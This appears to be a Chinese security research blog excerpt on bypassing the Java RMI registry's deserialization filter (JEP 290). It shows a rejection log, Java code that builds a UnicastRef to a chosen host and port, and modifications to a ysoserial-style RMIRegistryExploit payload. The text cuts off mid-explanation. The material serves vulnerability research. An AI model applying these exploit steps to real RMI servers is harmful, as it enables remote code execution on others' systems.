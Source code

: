 ```
ServerMain provide RPC service now
九月 20, 2018 12:31:57 下午 java.io.ObjectInputStream filterCheck
信息: ObjectInputFilter REJECTED: class sun.reflect.annotation.AnnotationInvocationHandler, array length: -1, nRefs: 8, depth: 2, bytes: 298, ex: n/a
```

这里很明显为什么是AnnotationInvocationHandler这个了类被拦截了，因为在CommonsCollections2中其实是利用了动态代理加强之后，如果不了解这步更多详情可以移步[java反序列化漏洞-玄铁重剑之CommonsCollection(上)](http://www.codersec.net/2018/02/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-%E7%8E%84%E9%93%81%E9%87%8D%E5%89%91%E4%B9%8BCommonsCollection(%E4%B8%8A)/)

根据限制所以我把目光放在Number(不考虑)，Remote，Proxy，UnicastRef，RMIClientSocketFactory，RMIServerSocketFactory，ActivationID，UID(基本不考虑)这几个类中。

其中UnicastRef引起了我的注意，如果稍微有点印象的就可以知道UnicastRef本身Amf3反序列化的时候使用过。

那么转换攻击思路就来了:

![](http://ohsqlm7gj.bkt.clouddn.com/18-9-20/8759288.jpg)

## 调试之路

说是这么说，但是自己在调试和尝试的过程中踩了很多坑，还好没放弃。参考RMIRegistryExploit我们重点就是要构造好Remote对象，首先先构造好UnicastRef。直接采用[【技术分享】Java AMF3 反序列化漏洞分析](https://www.anquanke.com/post/id/85846)的类似写法

```
public static UnicastRef generateUnicastRef(String host, int port) {
    java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
    sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(host, port);
    sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
    return new sun.rmi.server.UnicastRef(liveRef);
}
```

然后稍做在RMIRegistryExploit的基础上稍微做一点改动，直接把

```
Object payload = payloadObj.getObject(command);//CommonsCollections2 
String name = "pwned" + System.nanoTime();
Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
```

改成

```
 Object payload = generateUnicastRef("127.0.0.1", "3348");
String name = "pwned" + System.nanoTime();
Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
```

答案是服务器依旧爆ObjectInputFilter REJECTED，这个很正常，因为经过Gadgets.createMemoitizedProxy的处理逻辑本身就是AnnotationInvocationHandler这个用来动态代理，在本地服务器调试的时候加上

System.setProperty("sun.rmi.registry.registryFilter", "java.**;sun.reflect.annotation.**;com.sun.**");发现是可以执行命令的，说明我们的思路是对的，UnicastRef直接也可以反序列化的，那么接下来就是要想办法怎么去绕过ObjectInputFilter REJECTED这个限制了，本身UnicastRef是在registryFilter的范围之内的，但是在registry.bind(name, remote)的时候需要传入一个Remote对象。思路很清晰就是我们如果把UnicastRef封装成Remote类型,比如:
